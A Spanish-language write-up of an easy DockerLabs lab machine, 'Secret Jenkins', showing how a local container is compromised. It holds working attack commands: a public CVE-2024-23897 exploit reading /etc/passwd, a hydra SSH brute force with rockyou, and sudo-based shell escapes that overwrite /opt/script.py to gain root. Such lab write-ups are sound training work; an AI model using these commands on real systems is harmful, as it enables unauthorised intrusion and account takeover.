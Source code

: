 # Secret Jenkins

## Dificultad: Facil

Empezamos descargando la imagen de dockerlabs

![Descarga de Dockerlabs](./imagenes/descarga.png)

y luego, seguido de un:

```bash
unzip secretjenkins.zip
```

Para poder descomprimirlo, desplegamos la maquina usando el comando

```bash
sudo ./auto_deploy.sh secretjenkins.tar
```

![Despliegue de Secret Jenkins](./imagenes/despliegue.png)

Ahora que la maquina ya esta desplegada, si podemos comenzar con el hackeo!

# Reconocimiento

Usando nmap podremos escanear la red en busca de los servicios que tiene la maquina dentro

```bash
nmap -sV -p- 172.17.0.2 -Pn
```

- -sV: Detecta versiones de servicios
- -Pn: No realiza ping a la máquina
- -p-: Escanea todos los puertos


![Escaneo de puertos](./imagenes/escaneo.png)

Podemos detectar que hay un servicio de Jenkins corriendo en el puerto **8080**, especificamente la version **10.0.18**, ademas de un usual ssh en el puerto **22**.

Al buscar la version usando searchsploit encontramos que no hay una vulnerabilidad en esa version en nuestra maquina

```bash
searchsploit Jetty 10.0.18
Exploits: No Results
Shellcodes: No Results
```

Sin embargo, al entrar a la interfaz de Jenkins, podemos ver que hay un panel de usuario y contraseña, por lo que me llama a seguir buscando un exploit que me permita acceder a la máquina, solo para evitar recurrir a métodos más invasivos.

# Explotación

Luego de una busqueda, podemos encontrar un exploit concreto que nos puede ayudar en este caso. El [CVE-2024-23897](https://nvd.nist.gov/vuln/detail/CVE-2024-23897) que nos permite leer archivos del sistema. Gracias a nuestro querido amigo "El Pinguino de Mario" podemos encontrar un [script en python](https://github.com/Maalfer/CVE-2024-23897) que nos permite explotar esta vulnerabilidad.

Clonamos el repositorio y accedemos a el

```bash
git clone https://github.com/Maalfer/CVE-2024-23897.git
cd CVE-2024-23897
```

![Clonacion de repo](./imagenes/clone.png)

Una vez dentro del directorio, podemos ver que hay un archivo python llamado `CVE-2024-23897.py` que usaremos con el mismo ejemplo dentro del repo, para que nos permita leer el archivo `/etc/passwd` de la maquina, para buscar algun usuario divertido.

```bash
python3 CVE-2024-23897.py 172.17.0.2 8080 /etc/passwd
```

![Explotacion de la vulnerabilidad](./imagenes/exploit.png)

Podemos ver dos usuarios que pueden ser interesantes...

- **bobby**
- **pinguinito**

Ambos usuarios parecen ser interesantes, por lo que podemos intentar realizar un ataque de fuerza bruta sobre el ssh del inicio para ver si alguno tiene una credencial, empezemos con bobby.

```bash
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![fuerza bruta](./imagenes/hydra.png)

Con el usuario bobby podemos ver que ha sido exitoso en el ataque de fuerza bruta, obteniendo la siguiente contraseña:

- **chocolate**

Asi que ahora podemos intentar acceder al ssh de la maquina usando estas credenciales.

```bash
ssh bobby@172.17.0.2
```

![ssh](./imagenes/ssh.png)

Y estamos dentro de la máquina!

# Escalación de privilegios

Una vez dentro utilizamos el comando `sudo -l` para buscar los permisos de sudo que tiene el usuario bobby.

```bash
bobby@7e70d0a3ba24:~$ sudo -l

Matching Defaults entries for bobby on 7e70d0a3ba24:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on 7e70d0a3ba24:
    (pinguinito) NOPASSWD: /usr/bin/python3
```

Podemos ver que el usuario bobby puede ejecutar el comando `/usr/bin/python3` como el usuario `pinguinito` sin necesidad de contraseña. Esto significa que podemos intentar cambiar de usuario a `pinguinito` y obtener una shell con privilegios elevados.

Buscando en GTFOBins encontramos que podemos usar el siguiente comando para obtener una shell como el usuario de los permisos:

![GTFOBins](./imagenes/gtfobins.png)

```bash
sudo -u pinguinito python3 -c 'import os; os.system("/bin/bash")'
```

- **sudo -u pinguinito**: ejecuta el comando como el usuario `pinguinito`
- **python3 -c 'import os; os.system("/bin/bash")'**: ejecuta un comando de Python que importa el módulo `os` y ejecuta una shell de bash

Esto nos dará una shell interactiva como el usuario `pinguinito`, lo que nos permitirá explorar el sistema con mayores privilegios.

![Shell interactiva](./imagenes/pinguinito.png)

Ahora como el usuario pinguinito podemos explorar el sistema con mayores privilegios. Usando otro `sudo -l` podemos revisar sus permisos

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ sudo -l
Matching Defaults entries for pinguinito on 7e70d0a3ba24:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 7e70d0a3ba24:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Podemos ver que el usuario `pinguinito` puede ejecutar el script `/opt/script.py` como cualquier usuario sin necesidad de contraseña. Esto significa que podemos intentar ejecutar este script para obtener una shell con privilegios elevados.

por ende vamos a cambiar el script para que nos de una shell de root en los siguientes pasos:

1. Cambiamos los permisos del script para poder modificarlo

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ chmod +w /opt/script.py
```

2. Modificamos el contenido del script con el payload de la shell de python

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ echo 'import os; os.system("/bin/bash")' > /opt/script.py
```

3. ejecutamos el script con sudo

```bash
pinguinito@7e70d0a3ba24:/home/bobby$ sudo /usr/bin/python3 /opt/script.py
```

![root](./imagenes/elevacionroot.png)

Y una vez con el usuario root, hemos conseguido escalar privilegios y obtener acceso total al sistema!
